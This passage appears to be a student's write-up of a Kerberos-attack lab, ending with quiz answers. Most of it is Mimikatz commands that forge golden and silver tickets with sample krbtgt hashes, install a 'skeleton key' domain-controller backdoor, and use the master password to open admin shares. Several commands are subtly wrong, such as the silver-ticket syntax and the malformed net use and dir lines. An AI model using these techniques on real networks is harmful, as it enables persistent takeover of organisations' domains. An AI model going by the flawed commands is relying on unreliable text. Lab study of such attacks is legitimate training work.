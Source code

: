 - Creating a ticket for usage

```powershell
# creating a golden ticket
mimikatz # kerberos::golden /user:Administrator /domain:{domain} /sid:{user-sid(optional)} /krbtgt: {hash of krbtgt} /id:{user-id(optional)}
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /krbtgt:72cd714611b64cd4d5550cd2759db3f6 
# a ticket will be saved inthe current directory

# creating a silver ticket
mimikatz # kerberos::golden /user:Administrator /domain:{domain} /sid:{user-sid(optional)} /krbtgt: {hash of the service} /id:{user-id(optional)}
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a 
```

- load the genereated ticket to the current session

```powershell
mimikatz # misc::cmd
```

### Backddor with mimikatz

- Open up the mimikatz, implement `Skeleton key`

```powershell
# start up mimikatz
.\mimikatz.exe

# install skeleton key
misc::skeleton
```

- After installing the skeleton key, you can access the whole forest

```bash
# access the admin folder in the domain controller
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

# access the specific share in the domain controller 
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

### Answers

#### Introduction

- What does TGT stand for?
`Ticket Granting Ticket`

- What does SPN stand for?
`Service Principal Name`

- What does PAC stand for?
`Privilege Attribure Certificate`
